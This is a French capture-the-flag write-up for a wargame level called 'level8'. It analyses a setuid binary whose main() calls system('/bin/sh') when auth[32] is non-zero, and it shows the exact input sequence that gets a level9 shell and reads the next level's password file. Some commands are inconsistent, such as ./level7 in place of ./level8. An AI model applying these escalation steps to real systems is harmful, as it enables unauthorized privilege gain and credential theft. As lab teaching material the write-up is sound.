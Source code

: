 ## Comportement
- J'ai des droits `level8` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level9 users  6057 Mar  6  2016 level8*`
- En exécutant le binaire (`./level8`), on observe:
  ```shell
    ./level7 
    Segmentation fault (core dumped)
    ./level7 111
    Segmentation fault (core dumped)
    ./level7 111 222
    ~~
    ./level7 111 222 333
    ~~
  ```


## Analyse
- Une seule fonction `main()` qui exécute la commande `system("/bin/sh")` après une série de conditions. Il attend des commandes spécifiques de la part de l'utilisateur :
  -`auth` : copie les données suivant `auth` dans la variable globale `auth`.
  -`service` : copie les données suivant `service` dans la variable globale `service`.
  - `login` : appelle system() si auth[32] est différent de 0, sinon il appelle fwrite(). Ensuite, il affiche les adresses des variables globales auth et service.
- On voit que l'adresse de `service` est 16 bytes apres celle de `auth`.
  ```shell
    ./level8
    (nil), (nil)
    auth 
    0x804a008, (nil)
    service
    0x804a008, 0x804a018
  ```


## Résolution
- On cree `auth` et `service` pour qu'ils aient au moins 32 bytes de long (pour que `auth[32] != NULL`) sans oublier les 16 bytes de padding.
  ```shell
    ./level8
    (nil), (nil)
    auth 
    0x804a008, (nil)
    serviceBBBBBBBBBBBBBBB
    0x804a008, 0x804a018
    login
    $ whoami
    level9
    $ cat/home/user/level9/.pass
  ```
- On obtient directement le password. Il nous reste plus qu'a passer au level9 (`su level9`) en renseignant ce password.
